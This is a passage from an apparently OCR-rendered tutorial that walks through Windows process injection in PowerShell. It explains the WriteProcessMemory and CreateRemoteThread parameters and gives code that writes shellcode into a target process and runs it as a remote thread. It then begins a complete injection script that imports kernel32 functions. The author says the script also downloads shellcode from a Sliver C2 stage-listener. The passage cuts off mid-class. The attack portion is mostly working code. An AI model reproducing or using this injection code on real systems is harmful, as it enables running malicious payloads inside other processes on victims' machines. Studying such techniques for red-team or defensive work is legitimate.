 ```
# Write the shellcode to allocated memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, $size.ToUInt32(), [ref]$writtenBytes)
```


### CreateRemoteThread

Finally, we create a thread in the target process to execute our shellcode. The CreateRemoteThread function is defined as:

```
CreateRemoteThread(HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
```

 hProcess - Our process we've allocated and wrote shellcode to that we now want to execute as a remote thread ($process)
 
 lpThreadAttributes -Defines the security attributes for the thread. IntPtr.Zero initializes default settings.
 
 dwStackSize - Size of the stack for the new thread; 0 for default size
 
 lpStartAddress - Address where execution should begin, which is where we allocated them memory to ($memAddr)
 
 lpParameter - Additional parameters for the thread function; \[System.IntPtr\]::Zero since we don't need any.
 
 dwCreationFlags - The flags used to control thread creation. The flag 0 is used for immediate execution, so I'll use that.
 
 lpThreadId -  Optional parameter to store the thread ID; we can pass \[System.IntPtr\]::Zero since we don't need this, or we can create a variable called ($threadId) initialized as 0 and reference it in the function to update the variable with the executed threadID.
 
```
# Execute the shellcode
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)
```
## New Process Injection Script

Now that we analyzed and performed the steps necessary to perform process injection, we get to slap it all together. First, we must recognize that the functions I am using are C# functions and I am using them in Powershell, so I have to define a C# class which imports the necessary functions from the kernel32 DLL file. Additionally, I have to also actually download the shellcode from the sliver stage-listener and store that in a variable. After doing so, I final script looks like this.

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 
{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint DesiredAcess, bool bInheritHandle, int ProcessID);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr Process, IntPtr StartAddress, UIntPtr shellcodeSize, uint AllocationType, uint MemProtectConstraint);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr Process, IntPtr StartAddr, byte[] Shellcode, uint  shellSize, out UIntPtr BytesWritten);
```